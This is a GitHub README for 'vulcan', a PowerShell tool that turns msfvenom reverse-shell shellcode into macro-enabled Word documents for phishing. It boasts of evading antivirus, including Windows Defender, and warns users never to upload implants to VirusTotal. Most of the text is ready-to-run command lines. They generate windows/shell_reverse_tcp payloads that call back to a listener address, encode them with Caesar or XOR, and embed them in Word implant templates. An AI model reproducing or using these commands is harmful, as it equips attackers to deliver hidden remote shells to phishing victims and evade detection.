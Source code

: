 # vulcan

[![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://opensource.org/licenses/BSD-3-Clause)

## A `PowerShell` script that simplifies life and therefore... phishing. 🎣

A `PowerShell` script to automate the creation of consitent and efficient macro-enabled `Word` documents. At the time of writing, the `indirect` template yields great results at evading most AVs, including `Windows Defender` in some cases.

This `PowerShell` script can be viewed as *kind of* a third-party add-on to [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) - made possible thanks to [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) - that leverage templates to quickly and easily - *encoded* - create `Word` implants.

Users/stargazers are greatly encouraged toward contributing to improving and extending this project. 🐺

### ⚠️ Do not be a dummy... NEVER submit any implant to VirusTotal. 🤢

## Features

- Decoding routines/functions (`.\assets\decoders`) -> **do not hesitate to submit new templates**.
- Piping of shellcodes allowing for complex transformations in order to evade AVs.
- `Visual Basic` templating (`.\assets\templates`) -> **do not hesitate to submit new templates**.
- Work-around `Visual Basic` line-continuation limitations using `-Treshold`.

## Requirements

- [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) with [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) installed.

## Installation

1. Clone this repository:

    ```powershell
    git clone https://github.com/aress31/vulcan
    cd vulcan
    ```

2. Load the `PowerShell` scripts:

    ```powershell
    Import-Module -Name .\Vulcan.psm1
    ```

3. (Optional) List available commands:

    ```powershell
    Get-Module -Name vulcan | select -ExpandProperty ExportedFunctions
    ```

4. Run `vulcan`:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above example... 🙄

## Usage

`Get-Help -Name Invoke-Vulcan` is your friend... Your best friend is `Get-Help -Name Invoke-Vulcan -Detailed`. Nonetheless, `Invoke-Vulcan` must be fed a `hex`-formatted shellcode. This can be achieved with:

```powershell
Get-Content -Path $ShellCode | Invoke-Vulcan ...
```

```powershell
wsl --exec msfvenom ... -f hex | Invoke-Vulcan ...
```

### Examples

- Embed a `plain` shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

- Embed a `Caesar`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Caesar -Key 5 | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder Caesar -DecoderPath ".\assets\decoders\caesar.vba" -Key 5 -Verbose
    ```

- Embed a `XOR`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-XOR -Key "StarWatchThisRepo" | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder XOR -DecoderPath ".\assets\decoders\xor.vba" -Key "StarWatchThisRepo" -Verbose
    ```

    https://user-images.githubusercontent.com/11601622/182009703-b5bb4c27-c476-4066-b242-d77180fddf15.mp4
        
    > [!WARNING]
    > The length of the key must be shorted than the shellcode.

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above examples... 🙄

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/vulcan/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/vulcan/pulls).

## Acknowledgements

Give to Caesar (no pun intended 🙄) what belongs to Caesar:

- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## License

`vulcan` is distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.
